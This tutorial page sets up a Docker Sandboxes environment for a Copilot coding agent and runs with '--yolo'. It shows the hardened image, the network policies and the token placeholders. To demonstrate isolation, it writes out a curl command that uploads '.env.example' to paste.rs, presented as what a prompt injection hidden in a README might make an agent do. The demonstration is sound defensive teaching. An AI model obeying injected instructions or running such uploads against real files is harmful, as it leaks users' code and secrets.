

# 📦 Creating your agent's sandbox

The `sbx create` command provisions a sandbox without attaching to it. This is useful when you want to set it up, verify that it appears in `sbx ls`, or script several sandboxes before starting any of them. `sbx run` then attaches an agent session to an existing sandbox (or creates one on the fly if it doesn't exist yet).



## Starting the sandbox

1. From the root of the cloned repository, switch to the sample application directory:

    ```bash id=host
    cd project
    ```

2. Create your agent's sandbox with the `sbx create` command. `--kit` adds the Python kit you built in [Kits](02-kits.md) to the Copilot kit, and the workspace path (`.`) is the folder that gets mounted into the sandbox:

    ```bash id=host
    sbx create --name quickstart --kit ./kits/python copilot .
    ```

    The output shows both kits being assembled, then the install commands, including the one from your kit:

    ```none id=host
      Kits:       docker.io/sbx/copilot@sha256:47db4edd...
                  ./kits/python
      ...
        running 3 install commands
          ...
          $ Install Python 3, venv and pip (kit=python, user=0)
    ```

    > [!NOTE]
    > If you get an error saying that the `quickstart` sandbox already exists, remove it with `sbx rm quickstart` and run the command again.

3. Confirm that it was created by listing all sandboxes:

    ```bash id=host
    sbx ls
    ```

4. Python is already installed, before any agent runs:

    ```bash id=host
    sbx exec quickstart python3 --version
    ```

    ```none id=host
    Python 3.13.5
    ```

5. The sandbox runs on a **Docker Hardened Image**. Look at its operating system:

    ```bash id=host
    sbx exec quickstart cat /etc/os-release
    ```

    ```none id=host
    NAME="Docker Hardened Images (Debian)"
    ID="debian"
    VERSION_ID="13"
    VERSION_CODENAME="trixie"
    PRETTY_NAME="Docker Hardened Images/Debian GNU/Linux 13 (trixie)"
    HOME_URL="https://docker.com/products/hardened-images/"
    BUG_REPORT_URL="https://docker.com/support/"
    ```

    It's Debian 13 (trixie), rebuilt and maintained by Docker as a [Docker Hardened Image](https://docs.docker.com/dhi/): the `sourceURL` you saw in the Copilot kit in [Kits](02-kits.md). The image is minimal and kept patched, and it ships its own SBOM (`/opt/docker/sbom`). That's also why `apt-get update` reads `dhi.io`, the hardened images' package repository, next to `deb.debian.org`.

6. Look at the policies:

    ```bash id=host
    sbx policy ls
    ```

    A new `kit` policy applies only to `sandbox:quickstart`. Its name, in the `POLICY` column, is an ID such as `0e9c5242-cd95-4d02-89c3-0f6181c07dbd`: copy it and inspect the policy (`sbx policy inspect <POLICY>`) to see Copilot's own hosts, plus the apt and PyPI hosts your kit declared. These rules add to your **Locked Down** policy, for this sandbox only.

## See the isolation for yourself

Before you hand this sandbox to an agent that runs without asking for confirmation, check what it can and can't reach. `sbx exec` runs a command inside the sandbox, as the agent would.

1. **Your token isn't there.** Look for it in the sandbox's environment:

    ```bash id=host
    sbx exec quickstart sh -c 'env | grep _TOKEN='
    ```

    ```none id=host
    GH_TOKEN=proxy-managed
    COPILOT_GITHUB_TOKEN=proxy-managed
    ```

    That's a placeholder. Tools in the sandbox send it as if it were a real token, and the proxy on your host swaps in your actual token on the way out, only for the GitHub and Copilot hosts. Even if the agent printed or leaked this value, it would be useless.

2. **Your files aren't there, apart from the workspace.** Look at where the agent works, and at its home folder:

    ```bash id=host
    sbx exec quickstart sh -c 'pwd; ls -A ~'
    ```

    The workspace has the same path as on your host (on Windows, written Linux-style: `C:\Users\you\...` becomes `/c/Users/you/...`). But the home folder is the agent's own (`/home/agent`), not yours: shell and Git settings, but no `.ssh` keys, no cloud credentials, none of your other projects.

3. **It can't send your code anywhere you didn't allow.** Imagine that a malicious instruction, hidden in a README or an issue, convinced the agent to upload a file to a paste site. Try it yourself:

    ```bash id=host
    sbx exec quickstart curl -sS -X POST --data-binary "@backend/.env.example" https://paste.rs
    ```

    The proxy answers with `Approval required for paste.rs:443.`: the upload never left your machine. Don't approve it. Find it in the sandbox's network log:

    ```bash id=host
    sbx policy log quickstart
    ```

## Meet your agent

1. With the sandbox created, start an agent in it and attach to it:

    ```bash id=host
    sbx run --name quickstart
    ```

    Docker Sandboxes starts Copilot with `--yolo` by default and trusts the workspace directory. This lets Copilot work in the project without asking for confirmation at every step; you do not need to add the flag yourself.

    > [!IMPORTANT]
    > `--yolo` allows Copilot to run tools without individual confirmations. The sandbox limits what the agent can reach, but you should still review the agent's actions and changes.

2. Ask the agent to tell you about the project:

    ```console id=sandbox
    Explore this codebase and give me:
    1. A summary of the architecture and tech stack
    2. How to run it locally (without Docker Compose if possible)
    3. Any obvious issues or areas of concern you spot at a glance
    4. What the test suite covers
    ```

    Your agent reads the source files, checks the requirements, and reports back. Because the workspace is mounted directly into the VM, the agent sees your actual files, including any changes you make on the host while it runs.

### Controlling the session

`sbx run` is interactive: it occupies your terminal as a live agent session.

- Press **`Ctrl-C` twice** to exit the session and drop back to your host terminal.
- Type **`!`** before a command inside the agent to run it as a shell command without leaving the session, for example `!ls` or `!git status`.

Go ahead and exit the session by pressing **`Ctrl-C` twice**.

> [!NOTE]
> A sandbox **stops shortly after its last agent session ends**, and anything running inside it (containers, servers) stops with it. Files and installed packages stay. You'll rely on this in the Docker and port forwarding modules; to bring a sandbox back without opening a session, run `sbx run --detach --name quickstart`.

[[<< Previous: Secrets and credentials](03-secrets-credentials.md) | [Next >> TUI dashboard](05-tui-dashboard.md)]
